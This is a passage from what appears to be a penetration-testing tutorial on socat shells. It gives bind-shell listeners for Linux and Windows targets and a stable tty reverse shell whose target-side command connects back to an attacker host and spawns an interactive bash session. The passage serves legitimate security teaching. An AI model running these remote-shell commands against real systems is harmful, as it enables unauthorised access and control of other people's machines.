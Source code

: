 socat TCP-L:<PORT> EXEC:"bash -li"

On a Windows target we would use this command for our listener:

socat TCP-L:<PORT> EXEC:powershell.exe,pipes

We use the "pipes" argument to interface between the Unix and Windows ways of handling input and output in a CLI environment.

Regardless of the target, we use this command on our attacking machine to connect to the waiting listener.

socat TCP:<TARGET-IP>:<TARGET-PORT> -

Now let's take a look at one of the more powerful uses for Socat: a fully stable Linux tty reverse shell. This will only work when the target is Linux, but is significantly more stable. As mentioned earlier, socat is an incredibly versatile tool; however, the following technique is perhaps one of its most useful applications. Here is the new listener syntax:

socat TCP-L:<port> FILE:`tty`,raw,echo=0

Let's break this command down into its two parts. As usual, we're connecting two points together. In this case those points are a listening port, and a file. Specifically, we are passing in the current TTY as a file and setting the echo to be zero. This is approximately equivalent to using the Ctrl + Z, stty raw -echo; fg trick with a netcat shell -- with the added bonus of being immediately stable and hooking into a full tty.

The first listener can be connected to with any payload; however, this special listener must be activated with a very specific socat command. This means that the target must have socat installed. Most machines do not have socat installed by default, however, it's possible to upload a precompiled socat binary, which can then be executed as normal.

The special command is as follows:

socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane

This is a handful, so let's break it down.

The first part is easy -- we're linking up with the listener running on our own machine. The second part of the command creates an interactive bash session with  EXEC:"bash -li". We're also passing the arguments: pty, stderr, sigint, setsid and sane:

pty, allocates a pseudoterminal on the target -- part of the stabilisation process
stderr, makes sure that any error messages get shown in the shell (often a problem with non-interactive shells)
sigint, passes any Ctrl + C commands through into the sub-process, allowing us to kill commands inside the shell
setsid, creates the process in a new session
sane, stabilises the terminal, attempting to "normalise" it.
That's a lot to take in, so let's see it in action.

As normal, on the left we have a listener running on our local attacking machine, on the right we have a simulation of a compromised target, running with a non-interactive shell. Using the non-interactive netcat shell, we execute the special socat command, and receive a fully interactive bash shell on the socat listener to the left:



Note that the socat shell is fully interactive, allowing us to use interactive commands such as SSH. This can then be further improved by setting the stty values as seen in the previous task, which will let us use text editors such as Vim or Nano.
